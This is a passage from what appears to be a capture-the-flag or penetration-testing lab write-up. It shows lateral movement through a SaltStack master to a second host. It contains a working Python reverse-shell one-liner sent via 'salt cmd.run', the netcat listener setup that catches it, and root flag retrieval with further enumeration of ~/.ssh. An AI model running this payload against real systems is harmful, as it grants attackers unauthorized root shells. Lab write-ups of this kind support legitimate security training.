 ![](/images/boykin_lab/66. salt.png)

    salt -t 10 "*" cmd.run "ifconfig eth1"

![](/images/boykin_lab/66. salt_2.png)

So now we know host ubuntu-s-1vcpu-2gb-nyc1-01 is at internal IP 10.136.0.3.  From here we can use the salt master/minion relationship to spawn a reverse shell. After some trial and error, I found python3 to be reliable, but we have to escape the double quotes inside the command itself:

    salt -t 10 "ubuntu-s-1vcpu-2gb-nyc1-01" cmd.run "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.136.0.2\",17011));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'"

Before running that command, we need to set up a nc listener on Target machine 1, which means we need to ssh back into it from our Kali machine if we do not already have a connection:

    ssh -i id_rsa root@67.205.146.156
    nc -lvnp 17011

![](/images/boykin_lab/67. nc.png)

Now, back on Target machine 2, we can run the salt command to trigger a reverse shell:

    salt -t 10 "ubuntu-s-1vcpu-2gb-nyc1-01" cmd.run "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.136.0.2\",17011));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'"

![](/images/boykin_lab/68. salt_rev_shell.png)

The command may appear to hang in this terminal window, but over in our nc listener:

![](/images/boykin_lab/69. root.png)

<p>&nbsp;</p>
=======================================================

## Target Machine 3

=======================================================

We have root on Target machine 3!  Let's grab some flags.

    ls /home
    cat /home/capt/flag.txt
    cat /root/flag.txt

![](/images/boykin_lab/70. flag.png)

And we have our flags for capt and root. Time for more enum.  Since we did not ssh onto this machine, we need to find the public IP address if it has one:

    ifconfig
    ls -la /root/.ssh

![](/images/boykin_lab2/71. ifconfig.png)
